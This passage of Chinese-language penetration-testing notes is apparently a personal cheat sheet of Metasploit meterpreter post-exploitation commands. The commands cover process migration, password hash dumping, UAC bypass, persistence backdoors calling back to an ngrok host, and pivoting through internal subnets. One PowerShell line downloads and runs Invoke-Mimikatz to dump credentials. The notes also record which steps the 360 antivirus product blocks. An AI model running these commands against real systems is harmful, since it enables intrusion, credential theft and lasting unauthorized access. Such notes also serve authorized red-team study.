 > > upload file 
>
> 下载 
>
> > download file
>
> ### Msf 进程注入(测试 win10 没成功,win2008 可以，360 会拦)
>
> > meterpreter > getuid
> >
> > meterpreter > getpid
> >
> > meterpreter > ps
> >
> > meterpreter > migrate 676
>
> ### Msf hash
>
> > meterpreter > run hashdump    sys
> >
> > meterpreter > run post/windows/gather/smart_hashdump  需要 sys 权限
>
> getsystem 存在 uac，用 msf bypass，但特征明显 
>
> > meterpreter > search bypassuac
>
> > msf powerdump load mimikatz 不太好用
>
> ### Msf 的持续后门
>
> ****Persistence:** **
>
> ``run persistence -h`` 用于创建启动项启动，会创建注册表，创建文件。（X86_Linux 不支持此脚本）
>
> > run persistence -U -i 10 -p 10390 -r free.ngrok.cc 
>
> 会被 360 拦，-i 10 10 秒请求一次, 使用 powershell 执行也被监控而被 360 拦截
>
> meterpreter 的 ``run getgui -e`` 命令可以开启成功。360 会提示阻止
>
> ``Run metsvc -h`` ：用于创建服务，会创建 meterpreter 服务，并上传三个文件，使用-r参数可以卸载服务 ，被拦
>
> ### Msf powershell
>
> > meterpreter > load powershell
> >
> > meterpreter > powershell_shell
> >
> > PS > IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Exfiltration/Invoke-Mimikatz.ps1');
> >
> > Ps > Invoke-Mimikatz -DumpCreds
>
> ### Msf Router
>
> 2 个或多个路由之间，没有配置相应的路由表，不能访问，获得一台机器 shell session  添加路由，使 msf 可以在当前 shell session 下以被攻击机访问其他内网主机，
>
> > meterpreter > run get_local_subnets 
> >
> > meterpreter > run autoroute -s 172.17.0.0/16  添加路由
> >
> > meterpreter > run autoroute -p 				  查看路由
> >
> > meterpreter > run autoroute -d -s 172.17.0.0/16  删除